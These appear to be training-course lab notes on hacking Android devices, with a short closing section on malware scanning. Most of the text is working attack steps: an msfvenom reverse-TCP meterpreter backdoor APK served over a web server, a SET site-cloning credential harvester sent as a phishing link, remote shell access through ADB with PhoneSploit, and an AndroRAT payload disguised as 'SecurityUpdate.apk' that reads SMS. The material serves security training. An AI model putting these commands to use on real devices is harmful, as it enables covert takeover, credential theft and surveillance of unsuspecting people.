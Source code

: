 # Lab 1: Hack Android Devices
## Task 1: Hack an Android Device by Creating Binary Payloads using Parrot Security
	sudo su
	cd
	service postgresql start
	msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 -R > Desktop/Backdoor.apk 
	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	service apache2 start
	cp /root/Desktop/Backdoor.apk /var/www/html/share/
	msfconsole
	use exploit/multi/handler
	show options
	set LHOST 10.10.1.13
	exploit -i -z  -> run exploit as background job
	
	[Android]
	launch http://10.10.1.13/share
	download and run Backdoor.apk
	Chrome pop-up appears as shown in screenshot click on SETTINGS.Install unknown apps screen appears, Now turn on Allow from this source and click back.A MainActivity 
	screen appears; click Install.
	
	[parrot]
	The meterpreter session has been opened successfully
	sessions -i 1
	sysinfo
	ipconfig
	pwd
	cd /sdcard 
	pwd -> /storage/emulated/0.
	ps
	
	Note: Because of poor security settings and a lack of awareness, if an individual in an organization installs a backdoor file on their device, the attacker gains 
	control of the device. The attacker can then perform malicious activities such as uploading worms, downloading data, and spying on the user’s keystrokes, which can 
	reveal sensitive information related to the organization as well as the victim
	
	Close all windows
	
	[Android]
	Application -> MainActivity - App Info
	click UNINSTALL button to uninstall the application.
---
## Task 2: Harvest Users’ Credentials using the Social-Engineer Toolkit
	In this task, we will sniff user credentials on the Android platform using SET.
	[parrot]
	sudo su
	#setoolkit
	1 		-> Social Eng attacks
	2 		-> Website Attack Vector
	3 		-> Credential harvester attack method
	2       -> Site cloner
	Ip: 10.10.1.13
	URL to clone : http://certifiedhacker.com/Online%20Booking/index.html
	
	If a Press {return} if you understand what we’re saying here message appears, press Enter.
	
	Note: If a message appears asking Do you want to attempt to disable Apache?, type y and press Enter.
	Must now send the IP address of your Parrot Security machine to a victim and try to trick him/her into clicking on the link.
	Compose an email by encorporating fake link
	
	[Android]
	Open a link from the email, enter credentials
	
	[parrot]
	capture the credentials
---
## Task 3: Launch a DoS Attack on a Target machine using Low Orbit Ion Cannon (LOIC) on the Android Mobile Platform
---
## Task 4: Exploit the Android Platform through ADB using PhoneSploit
Android Debug Bridge (ADB) is a versatile command-line tool that lets you communicate with a device. ADB facilitates a variety of device actions such as installing and debugging apps, and provides access to a Unix shell that you can use to run several different commands on a device.

Usually, developers connect to ADB on Android devices by using a USB cable, but it is also possible to do so wirelessly by enabling a daemon server at TCP port 5555 on the device.
[parrot]
sudo su
cd PhoneSploit
python3 -m pip install colorama
python3 phonesploit.py
3  	-> Connect a new phone
Enter a phones ip address: 10.10.1.14
connection time out error :  Type 3 continue until u get Phone Ip address option
Connected at port 5555

	(main_menu)> 4  	-> Access Shell on a phone
	Device name: 10.10.1.14
	pwd		-> Root dir
	ls
	cd sdcard
	ls
	cd Download
	ls
	
	Note: Note down the location of images.jpeg (in this example, /sdcard/Download/images.jpeg). We will download this file in later steps.
	exit
	
	(main_menu)>7    ->Screen Shot a picture on a phone.
	10.10.1.14
	/home/attacker/Desktop		-> save, screen.png is stored in Desktop
	
	(main_menu)>14 	 ->list all apps on the phone
	10.10.1.14
	(main_menu)>15 	 ->choose Run an app
	com.android.calculator2
	
	[android]
	see that the calculator app is running, and that random values have been entered
---
## Task 5: Hack an Android Device by Creating APK File using AndroRAT
AndroRAT is a tool designed to give control of an Android system to a remote user and to retrieve information from it.

	[parrot]
	sudo su
	cd AndroidRat
	python3 androidRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
		--build: is used for building the APK
		-i: specifies the local IP address (here, 10.10.1.13)
	cp /home/attacker/AndroidRAT/SecurityUpdate.apk /var/www/html/share
	service apache2 start
	python3 androidRAT.py --shell -i 0.0.0.0 -p 4444
		--shell: is used for getting the interpreter
		-i: specifies the IP address for listening (here, 0.0.0.0)
	
	[Android]
	launch http://10.10.1.13/share
	save and open SecurityUpdate.apk
	
	[parrot]
	Interpreter session has been opened successfully.
	help
	deviceinfo
	getSIM inbox
	getMACAddress
	exit
---
# Lab 2: Secure Android Devices using Various Android Security Tools
## Task 1: Analyze a Malicious App using Online Android Analyzers
	[Android]
	click Commands icon from the top-left corner of the screen, navigate to Power --> Reset/Reboot machine.
	Click Malwarebytes app
	Give permission
	Allow -> ask for permission
	skip -> already have subscription
	
	SCAN NOW - under Last device scan
	List teh threats found
	
	Remove selected
	
	On demand scan --> to view details of the scan.